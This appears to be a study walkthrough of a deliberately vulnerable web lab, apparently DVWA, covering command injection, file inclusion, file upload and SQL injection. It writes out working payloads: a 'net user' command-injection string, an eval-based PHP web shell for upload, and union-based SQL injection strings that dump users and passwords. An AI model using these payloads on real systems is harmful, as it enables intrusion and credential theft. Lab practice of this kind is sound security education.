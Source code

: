# 无效输入

## Command Injection

Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell.

Ex: Use && to execute multiple commands: `127.0.0.1&&net user`

Ref: <https://www.freebuf.com/articles/web/116714.html>

## File Inclusion

File inclusion is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time.

1. Edit /etc/php/7.0/apache2/php.ini (in docker)
   * `allow_url_fopen = On`
     `allow_url_include = On`
   * Restart Apache: `/etc/init.d/apache2 restart`
2. Construct invalid URL to get the file path of the server. Ex: `http://localhost:port/vulnerabilities/fi/?page=/etc/test`
3. Upload a file to server and try to open it by using: `http://localhost:port/vulnerabilities/fi/?page=/serverpath/xxx`

Ref: <https://www.freebuf.com/articles/web/119150.html>

## File Upload

File inclusion is a type of web vulnerability where the server does not have strict control on uploaded files (file type, file content, etc). The attacker can upload malicious scripts like trojan, which could have destructive influence on the server.

1.  Upload a malicious file `hack.php`:

   ```
   <?php
   @eval($_POST['hacker'])
   ?>
   ```

   Ref: [One-line trajan](https://www.jianshu.com/p/90473b8e6667)

2. Use trojan horse tools to access the server and do what you want. 

Ref: <https://www.freebuf.com/articles/web/119467.html>

## SQL Injection

Insert malicious SQL statements into an entry field of execution. SQL injection must exploit a security vulnerability in an application's software, for example, when user input is either incorrectly filtered for string literal escape characters embedded in SQL statements or user input is not strongly typed and unexpectedly executed. 

1. Determine the type of injection
   * Enter `1`, the server will return the info of user 1.
   * Enter `1’or ‘1234 ’=’1234`, the server will return multiple results, which indicates there exists a character injection.
2. Determine the number of fields
   * Enter `1' or 1=1 order by 1 #`, `1' or 1=1 order by 2 #` ...
   * Test until the server does not return anything, the number of fields can be determined.
   * Determine the order of fields: `1' union select 1,2 #`, 
3. Get database: `1' union select 1,database() #`
4. Get all fields of database: `1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`
5. Download data: `1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`

Ref: <https://www.freebuf.com/articles/web/120747.html>

## SQL Injection (Blind)

Different from normal SQL injection, the attacker can not see the result of executions (blind). In this case, the information that the attacker can use is very limited. 

Ex: Use the principle of dichotomy, see details in the reference.

Ref: <https://www.freebuf.com/articles/web/120985.html>